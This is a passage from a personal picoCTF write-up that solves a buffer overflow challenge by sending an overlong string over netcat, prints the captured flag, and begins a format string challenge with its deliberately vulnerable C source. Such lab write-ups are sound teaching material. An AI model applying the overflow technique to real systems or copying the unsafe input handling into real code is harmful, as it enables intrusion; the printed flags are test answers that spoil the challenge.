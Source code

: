 ```c
```

- In that I focused on the `vuln` function, in which a string of 16 characters was defined and was copied to the parameter string pointer. In the `main` function the `vuln` function was passed on on the input which was read from the user. So to create a overflow, I just had to pass a string greater than 16 bytes to the input stream. 
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/bo0 $ nc saturn.picoctf.net 49193
Input: 12345678901234567890
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
- By causing this overflow, the `sigsev_handler` was triggered and printed the flag

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Notes & Concepts Learnt:
- I learnt the meaning of buffer overflow and `segfault`.
- `gets` function has vulnerabilities which can be exploited.
- `strcpy()` doesn't have a check condition, it just copies the data which can cause segment fault.

# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy? Download the binary [here](https://artifacts.picoctf.net/c_mimas/68/format-string-0). Download the source [here](https://artifacts.picoctf.net/c_mimas/68/format-string-0.c). Connect with the challenge instance here: `nc mimas.picoctf.net 63143`

## Solve:
- After downloading the binary and the source code, I ran the challenge using the `nc` port provided,
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/fmstr0 $ nc mimas.picoctf.net 63143
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
```
- On input of one of the options provided, the binary exited.
- So I opened the source code of the binary.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
```